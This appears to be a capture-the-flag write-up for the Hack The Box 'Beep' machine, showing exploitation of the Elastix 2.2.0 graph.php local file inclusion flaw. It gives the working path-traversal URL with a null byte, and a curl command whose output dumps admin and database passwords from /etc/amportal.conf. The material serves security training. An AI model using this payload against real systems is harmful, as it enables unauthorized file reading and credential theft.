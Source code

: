 # Exploitation

## Elastix 2.2.0 - 'graph.php' Local File Inclusion (#1)

Poc: [Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/37637)

Verified if the website is vulnerable: [https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action](https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action)

Extracted admin credentials from the .conf file:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ curl 'https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action' --insecure -s -i | tee | grep -v '\#' | awk NF
HTTP/1.1 200 OK
Date: Tue, 27 Apr 2021 14:21:46 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
AMPMGRPASS=jEhdIekWmdjE
AMPBIN=/var/lib/asterisk/bin
AMPSBIN=/usr/local/sbin
AMPWEBROOT=/var/www/html
AMPCGIBIN=/var/www/cgi-bin 
FOPWEBROOT=/var/www/html/panel
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_USERNAME=admin
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
AUTHTYPE=database
AMPADMINLOGO=logo.png
AMPEXTENSIONS=extensions
ENABLECW=no
ZAP2DAHDICOMPAT=true
MOHDIR=mohmp3
AMPMODULEXML=http://mirror.freepbx.org/
AMPMODULESVN=http://mirror.freepbx.org/modules/
AMPDBNAME=asterisk
ASTETCDIR=/etc/asterisk
ASTMODDIR=/usr/lib/asterisk/modules
ASTVARLIBDIR=/var/lib/asterisk
ASTAGIDIR=/var/lib/asterisk/agi-bin
ASTSPOOLDIR=/var/spool/asterisk
ASTRUNDIR=/var/run/asterisk
ASTLOGDIR=/var/log/asteriskSorry! Attempt to access restricted file.
```
